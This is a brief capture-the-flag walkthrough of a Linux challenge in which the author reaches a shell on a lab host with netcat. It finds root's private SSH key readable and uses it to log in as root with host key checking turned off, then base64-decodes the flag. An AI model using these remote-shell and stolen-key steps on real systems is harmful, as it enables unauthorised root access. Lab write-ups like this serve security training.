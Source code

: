 ## Linux 02
> Can you capture the flag?
> 
> Execute the following command to obtain a reverse shell on your local machine.
> 
> nc 192.168.10.7 9999

```bash
$ nc 192.168.10.7 9999

Where am I?
```

The first command executed was `ls`, you can see a directory called `ytdl`, without any suspicious content. After further inverstigation, we found out that the root directory has accessible, private content:

- `authorized_keys` Specifies the SSH keys that can be used for logging into the user account
- `id_rsa` Here is stored the private key of the root user
- `id_rsa.pub` Here is stored the public key of the root user

With the private key a ssh connection could be done as the root account. Since this a reverse shell which does not expose a SSH server, the connection is done through the reverse shell.

With the command `ssh root@localhost -i /root/.ssh/id_rsa 2>&1` a connection is started. This returns the error `Host key verification failed.`.

To bypass this verification the flag `-o StrictHostKeyChecking=no` can be used.

```bash 
$ ssh root@localhost -i /root/.ssh/id_rsa -o StrictHostKeyChecking=no

Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=

```

This message is base64 encoded, after decoding the flag is shown.

```bash 
$ echo "Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=" | base64 -d
cyberctfd{1nd33d_wh3r3_w45_1}
```
